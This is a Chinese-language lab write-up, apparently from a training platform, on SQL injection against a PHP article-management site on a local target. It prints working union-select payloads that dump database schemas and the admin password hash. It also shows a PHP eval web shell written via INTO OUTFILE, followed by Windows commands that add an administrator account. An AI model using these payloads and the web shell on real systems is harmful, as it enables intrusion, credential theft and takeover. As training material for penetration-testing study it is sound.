 ```yaml
---
description: 记录学习平台上实验过程和注入的思路
---
```


# Web渗透之基于phpcms的sql注入实验

## 记录实验过程

先启动靶机的服务，然后打开攻击机，使用浏览器访问PHP网站http://192.168.1.26:8083,打开了一个文章管理系统。

![&#x6587;&#x7AE0;&#x7BA1;&#x7406;&#x7CFB;&#x7EDF;&#x4E3B;&#x9875;](../.gitbook/assets/image%20%2846%29.png)

当我们访问一个文章时，会出现这样的链接

![&#x5355;&#x4E2A;&#x65B0;&#x95FB;&#x7684;&#x94FE;&#x63A5;](../.gitbook/assets/image%20%2864%29.png)

  
所以测试一下该网站此处是否存在sql注入漏洞

当我们构造这个http://192.168.1.26:8083/show.php?id=33 and 1=2链接访问时，系统返回了空白的页面

![&#x8FD4;&#x56DE;&#x7A7A;&#x767D;&#x9875;&#x9762;](../.gitbook/assets/image%20%2827%29.png)

  
当我们访问http://192.168.1.26:8083/show.php?id=33 and 1=1时，返回了正常的页面

![&#x8FD4;&#x56DE;&#x6B63;&#x5E38;&#x7684;&#x9875;&#x9762;](../.gitbook/assets/image%20%2859%29.png)

  
当我们尝试去http://192.168.1.26:8083/show.php?id=33‘访问时，出现了报错信息

![&#x7A0B;&#x5E8F;&#x62A5;&#x9519;&#x4FE1;&#x606F;](../.gitbook/assets/image%20%2895%29.png)

通过以上3次测试，我们可以得出基本的两个结论：  
1.存在sql注入漏洞  
2.程序采用的数据库为MYSQL

下面就考虑如何让数据库回显信息，既然有报错信息那么报错注入可以使用，我们还可以测试一下返回的字段数，直接回显信息。这里采用group by num 来测试（翻倍递增可以加快测试速度），最终测试出来长度为15

![&#x957F;&#x5EA6;&#x4E3A;16&#x65F6;&#x62A5;&#x9519;](../.gitbook/assets/image%20%2810%29.png)

![&#x957F;&#x5EA6;&#x4E3A;15&#x65F6;&#x6B63;&#x5E38;&#x663E;&#x793A;](../.gitbook/assets/image%20%2893%29.png)

测试一下显示的是第几个字段，http://192.168.1.26:8083/show.php?id=33 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15。发现第3个和第11个有回显

![&#x6D4B;&#x8BD5;&#x7ED3;&#x679C;](../.gitbook/assets/image%20%2875%29.png)

**实验手册中的几个payload\(基本思路都是利用sql函数和mysql系统数据库information\_schema\)**  
1.查看 mysql 版本 version\(\)  
2.查看当前数据库 database\(\)  
3.查看当前用户 user\(\)  
4.利用 and 1=2 union select 1,2,group\_concat\(convert\(SCHEMA\_NAME using latin1\)\),4,5,6,7,8,9,10,11,12,13,14,15  from  information\_schema.SCHEMATA，查看 mysql中所有数据库的名称。  
5.利用 and 1=2 union select 1,2,group\_concat\(convert\(table\_name using latin1\)\),4,5,6,7,8,9,10,11,12,13,14,15 from information\_schema.tables where table\_schema=database\(\) ，查看 cms 数据库拥有的所有表。可以发现存放用户信息的表cms\_users。  
6.利用 and 1=2 union select 1,2,group_concat\(convert\(column\_name using latin1\)\),4,5,6,7,8,9,10,11,12,13,14,15 from information\_schema.columns where table\_name=0x636D735F7573657273。 table\_name=cms\_users，表名需要编码为 16 进制。得到 3 个列：userid，username 和 password 从ASCII对照表中可知对应：c\(63\) m\(6d\) s\(73\)_ \(5f\) u\(75\) s\(73\) e\(65\) r\(72\) s\(73\)  
7.利用 and 1=2 union select 1,2,concat\_ws\(0x2b,userid,username,password\),4,5,6,7,8,9,10,11,12,13,14,15 from cms.cms\_users。得到管理员账号密码为：admin/e10adc3949ba59abbe56e057f20f883e（解密后123456）  


![&#x83B7;&#x5F97;&#x540E;&#x53F0;&#x7528;&#x6237;&#x540D;&#x5BC6;&#x7801;](../.gitbook/assets/image%20%2836%29.png)

登录后台：

![](../.gitbook/assets/image%20%2833%29.png)

后台页面竟然有报错信息......，暴露了目录，直接写一个木马。http://192.168.1.26:8083/show.php?id=33 union select '&lt;?php eval\($\_POST\[cmd\]\); ?&gt;',1,1,1,1,1,1,1,1,1,1,1,1,1,1 into outfile D:\\WWW\\cms\\ma.php

![](../.gitbook/assets/image%20%2897%29.png)

菜刀链接 

![](../.gitbook/assets/image%20%2869%29.png)

打开虚拟终端尝试添加用户：

net user test test /add  


![&#x6DFB;&#x52A0;&#x7528;&#x6237;](../.gitbook/assets/image%20%2811%29.png)

  
添加用户到管理员组

net localgroup Administrators test /add  


![&#x6DFB;&#x52A0;&#x7528;&#x6237;&#x5230;&#x7BA1;&#x7406;&#x5458;&#x7EC4;](../.gitbook/assets/image%20%2830%29.png)

  
查看管理员组   
net localgroup administrators

![&#x67E5;&#x770B;&#x7BA1;&#x7406;&#x5458;&#x7EC4;](../.gitbook/assets/image%20%2878%29.png)

尝试远程桌面链接

![&#x8FDC;&#x7A0B;&#x684C;&#x9762;](../.gitbook/assets/image%20%2834%29.png)



